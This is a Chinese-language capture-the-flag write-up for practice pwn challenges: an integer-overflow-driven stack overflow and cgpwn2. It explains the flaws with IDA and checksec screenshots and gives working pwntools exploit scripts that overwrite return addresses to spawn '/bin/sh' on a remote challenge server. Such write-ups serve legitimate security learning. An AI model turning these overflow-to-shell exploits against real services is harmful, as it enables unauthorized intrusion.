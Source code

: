 ![image-20210415163518381](https://s2.loli.net/2022/03/26/3pENDuWdQbKUwrI.png)

漏洞点就在此，首先程序回获取输入字符串的长度，并存于一个int8类型的变量中，实际上，这个int8变量最多可以存储256大小的字节，如果这个数字为257，那么在内存中查看的话其大小就变成了257-256=1.也就是说我们输入一个长度为256+4~256+8长度之间的字符串，就可以溢出s，这就是rop操作

exp：

```
from pwn import *
r=remote("111.200.241.244",52738)
shell_add=0x0804868b
payload = 'A'*0x14 + 'A'*4 + p32(shell_add) + 'A'*(256+3-0x14-4-4)
r.sendlineafter('Your choice:', '1')
r.sendlineafter('username:', 'aa')
r.sendlineafter('passwd:', payload)
r.interactive()


```

## cgpwn2

![image-20210419172455400](https://s2.loli.net/2022/03/26/KJ3hMEdWw54SXFV.png)

查看checksec ，开启了RELRO和NX保护



![image-20210419172921214](https://s2.loli.net/2022/03/26/FerEzXGALsh54vO.png)

IDA主函数查看到有函数漏洞hello（）

![image-20210419173013790](https://s2.loli.net/2022/03/26/GQDlWB6FxZrtheq.png)

并且有个pwn函数可以调用系统函数，可以看到在hello函数中有一个部分我们用gets函数向栈的s区域读取了字符串，结合gets函数不限制输入字符个数和程序没有开启stack保护两点，我们可以在使用输入时让输入的字符串覆盖栈上hello函数的返回地址，让程序执行完hello函数之后执行我们设计的部分

EXP：

```
from pwn import *
r=remote('111.200.241.244',42533)
sys_addr=0x0804855A //pwn函数中callsystem语句的地址，也是我们构造的假的返回地址
bin=0x804A080    //name区域的地址，我们向name区域输入/bin/sh,然后让这个地址作为system函数的参数，
				//完成system("/bin/sh")
payload='a'*0x26+'aaaa'+p32(sys_addr)+p32(bin)
a=r.recvuntil('e\n')
r.sendline('/bin/sh')
a=r.recvuntil(':\n')
r.sendline(payload)
r.interactive()
```

## level3
